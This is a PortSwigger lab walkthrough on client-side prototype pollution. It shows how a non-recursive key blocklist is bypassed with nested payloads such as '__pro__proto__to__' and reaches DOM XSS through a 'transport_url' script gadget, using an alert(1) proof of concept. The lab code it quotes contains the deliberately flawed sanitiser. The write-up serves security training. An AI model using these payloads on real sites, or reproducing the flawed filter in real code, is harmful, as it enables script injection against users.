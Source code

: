 # Client-side prototype pollution via flawed sanitisation

## Description

[This lab](https://portswigger.net/web-security/prototype-pollution/preventing/lab-prototype-pollution-client-side-prototype-pollution-via-flawed-sanitization) is vulnerable to DOM XSS via client-side prototype pollution. Although the developers have implemented measures to prevent prototype pollution, these can be easily bypassed.

## Reproduction and proof of concept

### Find a prototype pollution source

1. In your browser, try polluting the `Object.prototype` by injecting an arbitrary property via the query string:

```text
/?__proto__.foo=bar
```

2. Open the browser DevTools panel and go to the Console tab.
3. Enter `Object.prototype`.
4. Study the properties of the returned object and observe that the injected `foo` property has not been added.
5. Try alternative prototype pollution vectors. For example:

```text
/?__proto__[foo]=bar
/?constructor.prototype.foo=bar
```

6. Observe in each instance the `Object.prototype` is not modified.
7. Go to the **Sources** tab and study the JavaScript files that are loaded by the target site. 

```text
var deparam = function( params, coerce ) {
    var obj = {},
        coerce_types = { 'true': !0, 'false': !1, 'null': null };

    if (!params) {
        return obj;
    }

    params.replace(/\+/g, ' ').split('&').forEach(function(v){
        var param = v.split( '=' ),
            key = decodeURIComponent( param[0] ),
            val,
            cur = obj,
            i = 0,

            keys = key.split( '][' ),
            keys_last = keys.length - 1;

        if ( /\[/.test( keys[0] ) && /\]$/.test( keys[ keys_last ] ) ) {
            keys[ keys_last ] = keys[ keys_last ].replace( /\]$/, '' );

            keys = keys.shift().split('[').concat( keys );

            keys_last = keys.length - 1;
        } else {
            keys_last = 0;
        }

        if ( param.length === 2 ) {
            val = decodeURIComponent( param[1] );

            if ( coerce ) {
                val = val && !isNaN(val) && ((+val + '') === val) ? +val        // number
                    : val === 'undefined'                       ? undefined         // undefined
                        : coerce_types[val] !== undefined           ? coerce_types[val] // true, false, null
                            : val;                                                          // string
            }

            if ( keys_last ) {
                for ( ; i <= keys_last; i++ ) {
                    key = keys[i] === '' ? cur.length : keys[i];
                    cur = cur[sanitizeKey(key)] = i < keys_last
                        ? cur[sanitizeKey(key)] || ( keys[i+1] && isNaN( keys[i+1] ) ? {} : [] )
                        : val;
                }

            } else {
                if ( Object.prototype.toString.call( obj[key] ) === '[object Array]' ) {
                    obj[sanitizeKey(key)].push( val );

                } else if ( {}.hasOwnProperty.call(obj, key) ) {
                    obj[sanitizeKey(key)] = [ obj[key], val ];

                } else {
                    obj[sanitizeKey(key)] = val;
                }
            }

        } else if ( key ) {
            obj[key] = coerce
                ? undefined
                : '';
        }
    });

    return obj;
};
```

```text
function sanitizeKey(key) {
    let badProperties = ['constructor','__proto__','prototype'];
    for(let badProperty of badProperties) {
        key = key.replaceAll(badProperty, '');
    }
    return key;
}
```

`deparamSanitized.js` uses the `sanitizeKey()` function defined in `searchLoggerFiltered.js` to strip potentially dangerous property keys based on a blocklist. However, it does not apply this filter recursively.

8. Back in the URL, try injecting one of the blocked keys in such a way that the dangerous key remains following the sanitisation process. For example:

```text
/?__pro__proto__to__[foo]=bar
/?__pro__proto__to__.foo=bar
/?constconstructorructor.[protoprototypetype][foo]=bar
/?constconstructorructor.protoprototypetype.foo=bar
```

9. In the console, enter `Object.prototype` again. Notice that it now has its own foo property with the value bar. You've successfully found a prototype pollution source and bypassed the website's key sanitisation.

### Identify a gadget

1. Study the JavaScript files again:

```text
async function searchLogger() {
    let config = {params: deparam(new URL(location).searchParams.toString())};
    if(config.transport_url) {
        let script = document.createElement('script');
        script.src = config.transport_url;
        document.body.appendChild(script);
    }
    if(config.params && config.params.search) {
        await logQuery('/logger', config.params);
    }
}
```

`searchLogger.js` dynamically appends a script to the DOM using the config object's `transport_url` property if present.

2. Notice that no `transport_url` property is set for the `config` object. This is a potential gadget.

### Craft an exploit

1. Using the prototype pollution source you identified earlier, try injecting an arbitrary `transport_url` property:

```text
/?__pro__proto__to__[transport_url]=foo
```

2. In the browser DevTools panel, go to the Elements tab and study the HTML content of the page. 

```text
<script src="foo"></script>
```

A `script` element has been rendered on the page, with the `src` attribute `foo`.

3. Modify the payload in the URL to inject an XSS proof-of-concept. For example, you can use a `data: URL`:

```text
/?__pro__proto__to__[transport_url]=data:,alert(1);
```

4. Observe that the `alert(1)` is called and the lab is solved.

![Prototype pollution](../../_static/images/pp8.png)

## Exploitability

An attacker will need to find a source that you can use to add arbitrary properties to the global `Object.prototype`; identify a gadget property that allows you to execute arbitrary JavaScript; and combine these to call `alert()`.
